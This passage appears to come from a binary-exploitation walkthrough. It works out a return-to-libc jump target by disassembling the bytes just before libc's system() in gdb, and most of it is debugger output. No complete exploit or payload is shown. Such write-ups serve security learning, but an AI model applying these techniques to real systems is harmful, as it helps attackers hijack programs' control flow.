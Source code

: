 At the address of the `mov` command, `0xf7e26203` we could jump there? But, this
means we don't do the `sub` command, and that's important because the `mov`
offsets from the stack pointer when assigning to `eax` in preparation for the
system call. We could consider this in priming our exploit, but it would be a
lot better if we can just blindly return-2-libc without having to do more offset
calculations and whatnot.

What about subtracting from the start of system, how does the instructions
change?

``` example
(gdb) x/10i 0xf7e26200-1
   0xf7e261ff:	add    BYTE PTR [ebx+0x448b0cec],al
   0xf7e26205 <system+5>:	and    al,0x10
   0xf7e26207 <system+7>:	call   0xf7f2037d
   0xf7e2620c <system+12>:	add    edx,0x19adf4
   0xf7e26212 <system+18>:	test   eax,eax
   0xf7e26214 <system+20>:	je     0xf7e26220 <system+32>
   0xf7e26216 <system+22>:	add    esp,0xc
   0xf7e26219 <system+25>:	jmp    0xf7e25ce0
   0xf7e2621e <system+30>:	xchg   ax,ax
   0xf7e26220 <system+32>:	lea    eax,[edx-0x59f29]
(gdb) x/10i 0xf7e26200-2
   0xf7e261fe:	add    BYTE PTR es:[ebx+0x448b0cec],al
   0xf7e26205 <system+5>:	and    al,0x10
   0xf7e26207 <system+7>:	call   0xf7f2037d
   0xf7e2620c <system+12>:	add    edx,0x19adf4
   0xf7e26212 <system+18>:	test   eax,eax
   0xf7e26214 <system+20>:	je     0xf7e26220 <system+32>
   0xf7e26216 <system+22>:	add    esp,0xc
   0xf7e26219 <system+25>:	jmp    0xf7e25ce0
   0xf7e2621e <system+30>:	xchg   ax,ax
   0xf7e26220 <system+32>:	lea    eax,[edx-0x59f29]
(gdb) x/10i 0xf7e26200-3
   0xf7e261fd:	je     0xf7e26225 <system+37>
   0xf7e261ff:	add    BYTE PTR [ebx+0x448b0cec],al
   0xf7e26205 <system+5>:	and    al,0x10
   0xf7e26207 <system+7>:	call   0xf7f2037d
   0xf7e2620c <system+12>:	add    edx,0x19adf4
   0xf7e26212 <system+18>:	test   eax,eax
   0xf7e26214 <system+20>:	je     0xf7e26220 <system+32>
   0xf7e26216 <system+22>:	add    esp,0xc
   0xf7e26219 <system+25>:	jmp    0xf7e25ce0
   0xf7e2621e <system+30>:	xchg   ax,ax
(gdb) x/10i 0xf7e26200-4
   0xf7e261fc:	lea    esi,[esi+eiz*1+0x0]
   0xf7e26200 <system>:	sub    esp,0xc
   0xf7e26203 <system+3>:	mov    eax,DWORD PTR [esp+0x10]
   0xf7e26207 <system+7>:	call   0xf7f2037d
   0xf7e2620c <system+12>:	add    edx,0x19adf4
   0xf7e26212 <system+18>:	test   eax,eax
   0xf7e26214 <system+20>:	je     0xf7e26220 <system+32>
   0xf7e26216 <system+22>:	add    esp,0xc
   0xf7e26219 <system+25>:	jmp    0xf7e25ce0
   0xf7e2621e <system+30>:	xchg   ax,ax
```
